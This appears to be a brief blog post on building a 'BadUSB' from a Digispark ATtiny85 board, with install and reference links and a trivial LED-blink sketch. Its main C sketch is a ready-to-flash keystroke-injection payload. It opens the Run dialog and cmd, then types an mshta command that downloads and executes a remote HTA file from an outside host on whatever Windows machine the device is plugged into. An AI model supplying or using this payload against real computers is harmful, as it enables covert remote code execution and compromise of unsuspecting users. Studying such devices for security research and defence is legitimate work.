 ```yaml
---
author: XhstormR
tags:
- MCU
- BadUSB
date: 2019-11-16T16:15:32+08:00
title: Digispark BadUSB
---
```


<!--more-->

Updated on 2019-11-16

> {{< image "uploads/attiny85.png" "Attiny85" "1" "1">}}
>
> 基于 Attiny85 单片机

## Code
```c
#include "DigiKeyboard.h"

#define KEY_CAPSLOCK 57

void setup() {
    DigiKeyboard.delay(1000);
    DigiKeyboard.sendKeyStroke(0);
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
    DigiKeyboard.delay(500);
    DigiKeyboard.println("cmd");
    DigiKeyboard.delay(500);
    DigiKeyboard.println("mshta http://1.1.1.1/main.hta & exit");
}

void loop() {
}
```

```c
void setup() {
    pinMode(1, OUTPUT);
}

void loop() {
    digitalWrite(1, HIGH);
    delay(1000);
    digitalWrite(1, LOW);
    delay(1000);
}
```

## Install
* https://github.com/arduino/Arduino
* https://github.com/digistump/arduino-boards-index
* https://github.com/digistump/DigistumpArduino/releases/latest

## Reference
* https://github.com/toxydose/Duckyspark
* [Digispark Example](https://github.com/digistump/DigistumpArduino/tree/master/digistump-avr/libraries/Digispark_Examples)
* [DigiMouse.h](https://github.com/digistump/DigistumpArduino/blob/master/digistump-avr/libraries/DigisparkMouse/DigiMouse.h)
* [DigiKeyboard.h](https://github.com/digistump/DigistumpArduino/blob/master/digistump-avr/libraries/DigisparkKeyboard/DigiKeyboard.h)
* [HID Usage Tables](https://source.android.google.cn/devices/input/keyboard-devices#hid-keyboard-and-keypad-page-0x07)
